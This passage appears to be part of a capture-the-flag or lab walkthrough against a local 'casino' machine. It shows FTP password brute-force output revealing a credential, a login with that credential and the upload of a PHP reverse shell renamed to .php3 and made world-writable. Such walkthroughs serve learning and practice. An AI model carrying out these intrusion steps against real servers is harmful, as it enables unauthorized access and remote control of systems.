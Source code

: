 ```bash
[Attempt] target 192.168.0.107 - login:ftpUserULTRA - password:Spring2016
[Attempt] target 192.168.0.107 - login:ftpUserULTRA - password:Spring2017
[Attempt] target 192.168.0.107 - login:ftpUserULTRA - password:Spring2014
[Attempt] target 192.168.0.107 - login:ftpUserULTRA - password:Spring2013
Attempt] target 192.168.0.107 - login:ftpUserULTRA - password:testtest
[Attempt] target 192.168.0.107 - login:ftpUserULTRA - password:testing123
[21] [ftp] host:192.168.0.107  login:ftpUserULTRA  password:bankbank

```

>[21] [ftp] host:192.168.0.107  login: **ftpUserULTRA**  password **bankbank**


Using MobaXterm I setup the user

![Pasted image 20240115044510.png](/img/user/imgs/Pasted%20image%2020240115044510.png)

![Pasted image 20240115044630.png](/img/user/imgs/Pasted%20image%2020240115044630.png)



![Pasted image 20240115044646.png](/img/user/imgs/Pasted%20image%2020240115044646.png)


Based on page link we are seeing the ftp files.

![Pasted image 20240115044709.png](/img/user/imgs/Pasted%20image%2020240115044709.png)

Lets try to upload a php reverse shell first with no extension and then we rename it to php3 format.

![Pasted image 20240115044829.png](/img/user/imgs/Pasted%20image%2020240115044829.png)


```bash


┌──(root㉿kali)-[~kali/exploitcasino]
└─# ftp ftp://ftpUserULTRA:bankbank@192.168.0.107   
Connected to 192.168.0.107.
220 Customer Access Level: ULTRA
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.

ftp> ls

229 Entering Extended Passive Mode (|||58114|)
150 Here comes the directory listing.

drwxr-xr-x    2 1002     1002         4096 Feb 22  2019 Desktop
-rw-------    1 1002     1002         5679 Jan 15 05:48 php_reverse_shell.php3
drwxrwxrwx    2 1002     1002         4096 Jan 13 23:01 test
226 Directory send OK.

ftp> chmod 777 php_reverse_shell.php3
200 SITE CHMOD command ok.
ftp> 

```
